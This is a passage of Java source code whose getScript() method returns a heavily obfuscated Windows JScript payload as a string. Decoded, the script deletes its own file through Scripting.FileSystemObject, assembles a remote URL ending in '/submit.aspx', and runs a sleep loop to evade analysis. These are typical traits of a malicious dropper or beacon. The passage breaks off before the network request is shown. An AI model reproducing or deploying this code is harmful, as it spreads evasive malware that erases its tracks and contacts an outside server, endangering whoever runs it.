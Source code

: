 ```
     */
    private static String encapsulate(String input) `{`
        return """ + input + """;
    `}`

    /**
     * Gets the script
     *
     * @return the script in the form of a string
     */
    public static String getScript() `{`
        return "try `{`n"
                + "    var rhepu = getAXO(("w", "b", "S") + ("f", "I", "u", "h", "B", "c") + ("m", "O", "r") + ("Q", "z", "i") + ("m", "q", "X", "p", "r", "p") + ["v", "I", "S", "t", "l"][(949 - 946)] + ("e", "b", "I", "y", "i") + ("e", "g", "S", "T", "Z", "n") + ["o", "g", "u"][(-531 + 532)] + "." + ["F", "E"][(200 - 200)] + "i" + "l" + ("m", "V", "U", "c", "e") + ("b", "n", "o", "S") + "y" + ("o", "q", "A", "c", "J", "s") + ("m", "k", "G", "t") + ("v", "o", "r", "e") + ("k", "w", "m") + ["O", "n"][(899 - 899)] + "b" + "j" + "e" + "c" + ["t", "N"][(290 - 290)]);n"
                + "    rhepu["D" + "e" + ("W", "y", "F", "j", "j", "l") + ("P", "u", "G", "G", "a", "e") + ["m", "R", "z", "o", "t", "E"][(-393 + 397)] + ["n", "B", "e", "z", "e"][(668 - 666)] + "F" + ("d", "f", "i") + ("u", "i", "F", "a", "m", "l") + ["e", "F", "T", "e"][(-643 + 643)]](this[("J", "w", "x", "J", "W") + ("B", "C", "i", "S") + "c" + ("T", "c", "H", "p", "Q", "r") + "i" + ("m", "u", "p") + ["q", "t", "A", "M", "r", "K", "a"][(-185 + 186)]][n"
                + "        ["m", "P", "S", "K", "O", "O"][(-757 + 759)] + ("c", "b", "c") + ["r", "g"][(-321 + 321)] + ["D", "v", "H", "i", "d", "a", "A"][(847 - 844)] + ("C", "d", "k", "p") + ["i", "t", "p"][(115 - 114)] + ("R", "H", "z", "d", "r", "F") + "u" + "l" + "l" + "N" + "a" + "m" + ("Q", "m", "W", "W", "e")n"
                + "    ], true);n"
                + "`}` catch (e) `{``}`n"
                + "var zuqyljaah = ("u", "T", "k", "h") + ["t", "G", "H", "M", "X", "n"][(-130 + 130)] + ["t", "E", "r", "T"][(-854 + 854)] + "p" + ":" + "/" + "/" + ["6", "B"][(-689 + 689)] + "0" + ("s", "M", "a", "e") + "a" + ["s", "t", "H", "y", "p", "0", "b"][(395 - 390)] + ["d", "2", "P", "m"][(-362 + 363)] + ["H", "c", "W", "6", "w"][(874 - 871)] + ("X", "s", "0") + "." + "a" + ("Y", "U", "Y", "J", "s", "u") + "t" + ("v", "E", "k", "t", "G", "h") + "." + ["G", "H", "c", "q"][(-698 + 700)] + ("t", "U", "X", "o") + ("u", "p", "d") + "i" + "n" + ["g", "u", "Y"][(-279 + 279)] + ("L", "D", "e", "t", "b") + ("L", "T", "i") + "t" + "." + "c" + "o" + "." + ("u", "R", "u", "i") + "n" + "/" + ["P", "v", "x", "s", "r", "c", "r"][(-350 + 353)] + ("j", "G", "u") + ["j", "R", "b", "q"][(312 - 310)] + ("N", "l", "k", "N", "R", "m") + ("I", "K", "i") + ("W", "o", "j", "e", "t") + "." + "a" + ["E", "z", "k", "f", "s", "U"][(-412 + 416)] + ["m", "j", "v", "p", "g"][(-354 + 357)] + ("o", "s", "w", "x");n"
                + "var tid = ["5", "O"][(-765 + 765)] + ("R", "m", "l", "f", "z", "0") + ("L", "C", "g", "g", "0");n"
                + "var r8h = ["S", "g", "a", "L", "r"][(202 - 200)] + "a" + ("c", "H", "L", "m", "d") + "2" + "8" + ("q", "y", "O", "0") + ("y", "Y", "a", "o", "a") + ("x", "B", "p", "p", "9");n"
                + "var gudel6 = [];n"
                + "gudel6[("A", "F", "p") + "u" + "s" + ["A", "u", "h", "m"][(584 - 582)]](["k", "a", "h"][(-497 + 498)]);n"
                + "gudel6[["d", "p", "E", "i"][(37 - 36)] + "u" + ["s", "h", "K"][(935 - 935)] + ("t", "O", "h")](tid);n"
                + "var kbiag = womzyjeptfu();n"
                + "var jybspikivsu = kbiag + (224 - (-9776));n"
                + "while (kbiag &lt; jybspikivsu) `{`n"
                + "    kbiag = womzyjeptfu();n"
                + "    this[("T", "a", "w", "V", "W") + ["h", "S", "G", "I", "z"][(-666 + 667)] + ("x", "C", "u", "q", "c") + ["r", "Y"][(-326 + 326)] + ["S", "t", "i", "g", "f", "Y"][(-190 + 192)] + ("b", "q", "p") + "t"]["S" + "l" + ("u", "C", "e") + "e" + ["p", "U", "s", "E", "R"][(-375 + 375)]]((464 - (-536)));n"
                + "`}`n"
                + "n"
                + "function womzyjeptfu() `{`n"
                + "    return new Date()[("c", "z", "T", "g") + "e" + ["w", "o", "t", "y", "Y"][(-295 + 297)] + "T" + "i" + ["T", "A", "m", "B", "s"][(-495 + 497)] + ("F", "h", "e")]();n"
                + "`}`n"
```